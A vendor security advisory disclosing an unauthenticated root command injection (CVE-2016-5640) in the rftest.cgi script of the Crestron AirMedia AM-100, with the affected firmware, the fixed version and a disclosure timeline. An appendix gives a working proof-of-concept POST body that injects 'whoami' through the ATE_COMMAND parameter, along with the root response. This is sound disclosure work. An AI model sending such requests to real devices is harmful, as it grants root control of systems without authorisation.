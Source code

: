 # [CLVA-2016-05-002]: Crestron AM-100 Command Injection Vulnerability

# Summary

Cylance identified a vulnerability in the Crestron AirMedia AM-100, which could allow an unauthenticated entity to execute arbitrary commands on affected devices. The unauthenticated user must be able to access the web server on the affected devices.

## Product Description

The Crestron AirMedia AM-100 allows users to "wirelessly present PowerPoint®, Excel®, Word, and PDF documents, as well as photos, on the room display from their personal iOS® or Android™ mobile device" or desktop/laptop. (via [http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations](http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations)).

## Affected Products

* Crestron AirMedia AM-100 (firmware v1.1.1.11 - v1.2.1)

## Impact

An unauthenticated entity may be able to execute arbitrary commands on the affected AM-100 as superuser ("root").

# Vulnerability Information

* Cylance Identifier: CLVA-2016-05-002
* CVE Identifier: CVE-2016-5640

## Description

A command injection vulnerability exists in `rftest.cgi` on the AM-100 embedded web server. The `ATE_COMMAND` POST parameter specifies the path to a command for the underlying OS to execute. By default, the value of this parameter is `/sbin/iwpriv`; however, the value of this parameter can be a relative or absolute path to any arbitrary command on the underlying OS.

## Impact

Attackers may execute unauthorized commands, which could then be used to disable the software, or read and modify data for which the attacker does not have permissions to access directly. Additionally, as the embedded web server runs as root, subsequent commands/processes will also run as root, providing unfettered access to the system.

## Attack Scenario

An unauthenticated entity with access to the AM-100 embedded web server could send HTTP POST data to `rftest.cgi`, specifying any arbitrary command to be executed.

## Resolution

Crestron has released firmware version 1.4.0.13 to address this issue. Affected users should update the firmware of their AM-100 as soon as possible. Crestron partners can find the latest firmware at [http://www.crestron.com/products/model/AM-100](http://www.crestron.com/products/model/AM-100)

## Credit

* Zach Lanier, Director of Research, Cylance


## Additional Information
### Details for CLVA-2016-05-002

* Example of a benign/normal `POST` request body for `rftest.cgi`:

```
POST https://[AM-100-ADDRESS]/cgi-bin/rftest.cgi?lang=en&src=AwServicesSetup.html&[TOKEN] HTTP/1.1
...
ATE_COMMAND=%2Fsbin%2Fiwpriv+ra0+set+ATE%3DATESTART%3B%2Fsbin%2Fiwpriv+ra0+set+ATETXLEN%3D24%3B%2Fsbin%2Fiwpriv+ra0+set+ATE%3DTXCONT%3B&ATECHANNEL=&ATETXLEN=24&ATETXCNT=&ATETXMODE=&ATETXBW=&ATETXGI=&ATETXMCS=&ATETXANT=&ATERXANT=&ATERXFER=&ResetCounter=&ATEAUTOALC=&ATEIPG=&ATEPAYLOAD=&ATE=TXCONT
```

* Example of expected response:

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Wed, 26 Oct 2005 19:07:53 GMT
Server: lighttpd/1.4.35-devel-4f1e285

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="content-Type" content="text/html; charset=utf-8">
<meta http-equiv="Cache-control" content="no-cache">
<title>Crestron AirMedia</title>
...
```

* Example of malicious `POST` request body for `rftest.cgi`, specifying the `whoami` command for the `ATE_COMMAND` parameter:

```
ATE_COMMAND=whoami&ATECHANNEL=&ATETXLEN=24&ATETXCNT=&ATETXMODE=&ATETXBW=&ATETXGI=&ATETXMCS=&ATETXANT=&ATERXANT=&ATERXFER=&ResetCounter=&ATEAUTOALC=&ATEIPG=&ATEPAYLOAD=&ATE=TXCONT
```

* Response (note response contains `root`, indicating successful execution of `whoami`, as well as identifying that the web server runs as superuser):

```
HTTP/1.1 200 OK
Date: Wed, 26 Oct 2005 20:50:35 GMT
Server: lighttpd/1.4.35-devel-4f1e285
root

Content-Type: text/html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
... 
```

# CLVA-2016-05-002 Timeline

* Discovery Date: 2016-05-12
* Vendor Notification Date: 2016-05-19
* CERT/CC Contact Date: 2016-05-27
* Vendor Acknowledgement Date: 2016-06-06
* Patch Release Date: 2016-08-01
* Public Disclosure Date: 2016-08-01
